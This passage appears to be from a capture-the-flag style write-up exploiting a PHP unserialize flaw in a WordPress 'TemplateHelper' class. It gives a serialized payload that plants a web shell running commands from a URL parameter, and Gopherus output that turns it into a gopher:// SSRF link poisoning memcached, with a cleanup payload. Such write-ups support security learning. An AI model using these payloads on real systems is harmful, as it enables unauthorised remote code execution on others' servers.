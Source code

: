 In order to build the exploit locally, we can set up a WordPress server using the instructions in the README we grabbed earlier (which I'll skip, as it's a bit of a process).

Note: TemplateHelper is the vulnerable portion of this webapp. Using the link I posted below, I found similarities between the example in the tutorial and the TemplateHelper function being used.

We can follow the directions on the following page to build an exploit, substituting the keys and data.

Useful: https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/

The payload looks like this:

```
O:14:"TemplateHelper":2:{s:4:"file";s:7:"poc.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}
```

We can run this through gopherus, to give ourselves a useable link:

```
https://github.com/tarunkant/Gopherus
```

```
gopherus --exploit phpmemcache


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:7:"poc.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload: 

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```
